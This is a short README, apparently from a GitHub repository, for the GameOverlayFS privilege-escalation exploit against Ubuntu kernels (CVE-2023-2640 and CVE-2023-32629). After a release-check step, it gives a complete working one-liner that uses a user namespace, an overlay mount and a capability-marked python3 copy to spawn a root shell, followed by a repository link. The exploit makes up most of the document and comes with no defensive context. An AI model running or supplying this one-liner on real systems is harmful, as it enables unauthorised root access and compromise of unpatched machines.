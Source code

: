 # GameoverlayFS kernel exploit (CVE-2023-2640 and CVE-2023-32629)

## Steps:

 - lsb_release -a (Check for the release version. If it is the "Jammy" release, it is most likely affected by the vulnerability)

## One liner to gain root:

 - unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/; setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("/bin/bash")'

## Github repo: https://github.com/luanoliveira350/GameOverlayFS
